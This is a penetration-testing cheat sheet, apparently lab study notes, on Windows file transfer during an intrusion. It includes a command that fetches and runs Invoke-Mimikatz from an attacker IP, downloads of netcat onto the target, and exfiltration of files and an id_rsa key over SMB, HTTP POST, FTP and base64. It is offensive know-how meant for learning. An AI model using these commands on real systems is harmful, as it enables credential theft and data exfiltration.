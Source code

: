 ```yaml
---
title: Windows File Transfer
category: Access
tags: [download, upload, wget, curl, rdp, powershell, invoke]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server', 'powershell']
---
```


# Windows File Transfer

## Download Operations

### HTTP Method

```bash
python3 -m http.server 80
```

```powershell
# Execute a remote script
IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1')

# Invoke-Web-Request
IWR -Uri http://172.16.1.30/nc.exe -OutFile C:\temp\nc.exe

# Non-Interactive
(New-Object System.Net.WebClient).DownloadFile('http://172.16.1.30/nc.exe', 'C:\temp\nc.exe')

# Using certutil
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

---

### SMB

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
# Mount
net use n: \\192.168.1.10\share /user:test test

# Download
copy \\192.168.1.10\nc.exe C:\temp\nc.exe

# Upload
copy C:\temp\supersecret.txt \\192.168.1.10\supersecret.txt
```

---

### PowerShell Base64 Encode & Decode

Windows Command Line utility (cmd.exe) has a maximum string length of  8,191 characters. Also, a web shell may error if you attempt to send  extremely large strings. 

**Encoding**

```bash
# Get file hash
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

# Encode
cat id_rsa |base64 -w 0;echo
LS0tLS1CR ---SNIP--- tLS0tLQo=
```

**Decoding**

```powershell
# Decode
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CR ---SNIP--- tLS0tLQo="))

# Check and match hash
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278
```

---

## Upload Operations

### PowerShell Base64 Encode & Decode

**Encode File Using PowerShell:**

```powershell
# Encode file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3B5cm ---SNIP--- YWxob3N0DQo=
# Get file hash
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```

**Decode Base64 String in Linux:**

```bash
# Decode file
echo IyBDb3B5cm ---SNIP--- YWxob3N0DQo= | base64 -d > hosts

# Check and match hash
md5sum hosts 

3688374325b992def12793500307566d  hosts
```

---

### PowerShell Web Uploads Base64

**Start the server:**

`python3 -m uploadserver`

**Upload file:**

```powershell
# Encode | Send
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://192.168.1.10:8000/ -Method POST -Body $b64

# Catch with netcat and decode
nc -lvnp 8000

<base64> | base64 -d -w 0 > hosts
```

---

### Python FTP Uploads

**Start the server:**

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**PowerShell Upload:**

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

**Create a Command File for the FTP Client to Upload a File**

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.1.10

Log in with USER and PASS first.

ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

## Misc

### PowerShell Session File Transfer

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**          

```powershell
whoami
htb\administrator

hostname
DC01

Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**

`$Session = New-PSSession -ComputerName DATABASE01`

**Copy samplefile.txt from our Localhost to the DATABASE01 Session** 

`Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

`Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

------

### RDP

Connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

**Mounting a Linux Folder Using rdesktop**

`rdesktop 192.168.1.10 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files`

**Mounting a Linux Folder Using xfreerdp**

`xfreerdp3 /v:192.168.1.10 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
